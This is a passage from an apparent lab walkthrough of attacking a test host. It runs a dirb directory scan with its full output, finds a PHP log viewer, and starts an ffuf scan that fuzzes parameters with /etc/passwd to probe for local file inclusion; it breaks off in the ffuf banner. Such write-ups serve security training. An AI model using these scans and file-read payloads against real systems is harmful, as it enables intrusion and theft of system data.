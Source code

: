 **Browse to *[http://192.168.5.119/tasks/tasks\_todo.txt](http://192.168.5.119/tasks/tasks_todo.txt?ref=rootandbeer.com)* -**

> 1.  Change permissions for auth log
> 2.  Change port 22 -> 7672
> 3.  Set up phpMyAdmin

**Run *dirbuster* to discover additional directories under blog-post, including *blog-post/archives/*:**

```
└─$ dirb http://192.168.5.119/blog-post/ /usr/share/wordlists/dirb/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Aug  7 17:14:34 2024
URL_BASE: http://192.168.5.119/blog-post/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.5.119/blog-post/ ----
==> DIRECTORY: http://192.168.5.119/blog-post/archives/                                                                                                   
+ http://192.168.5.119/blog-post/index.html (CODE:200|SIZE:190)                                                                                           
==> DIRECTORY: http://192.168.5.119/blog-post/uploads/                                                                                                    
                                                                                                                                                          
---- Entering directory: http://192.168.5.119/blog-post/archives/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                          
---- Entering directory: http://192.168.5.119/blog-post/uploads/ ----
+ http://192.168.5.119/blog-post/uploads/index.html (CODE:200|SIZE:190)                                                                                   
                                                                                                                                                          
-----------------
END_TIME: Wed Aug  7 17:15:46 2024
DOWNLOADED: 9224 - FOUND: 2
```

**Browse to *blog-post/archives/* to discover "randylogs.php".**

**Use [[FFuF]] to discover the "file" parameter for *randylogs.php*:**

```bash
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -fs 0 -u http://192.168.5.119/blog-post/archives/randylogs.php?FUZZ=/etc/passwd 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.5.119/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
```